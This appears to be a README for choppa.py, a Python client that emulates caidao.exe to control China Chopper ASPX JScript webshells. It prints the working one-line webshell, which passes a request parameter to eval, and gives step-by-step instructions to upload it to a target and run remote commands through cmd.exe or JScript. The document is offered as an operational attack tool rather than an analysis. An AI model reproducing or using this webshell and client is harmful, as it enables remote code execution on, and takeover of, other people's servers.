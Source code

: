 
# choppa.py

choppa.py is a python implementation of caidao.exe, which includes minimal implementations
of caidao.exe's features exclusively for ASPX Jscript variants of China Chopper webshells such as:

```js
<script language="JScript" runat="server">function Page_Load(){eval(Request["password"],"unsafe");}</script>
```

Emulated caidao.exe features include:
- Mode 1: Virtual terminal emulation with Jscript and `cmd.exe /c`
- Mode 2: Jscript execution

choppa.py is not fully featured, and does not include file upload/download or support
for other webshell types referenced in caidao.exe such as ASP and PHP. These features are subject 
to future implementations.

#########################
INSTRUCTIONS:
#########################
1. Change webshell password value

```js
<script language="JScript" runat="server">function Page_Load(){eval(Request["Nonqjbexznaoynzrfuvfgbbyf"],"unsafe");}</script>
```

2. Upload ASPX webshell on target
3. Modify URL to specify target server and webshell name in choppa.py 
4. Execute choppa.py with chosen mode number `python3 choppa.py -p Nonqjbexznaoynzrfuvfgbbyf -m 1`
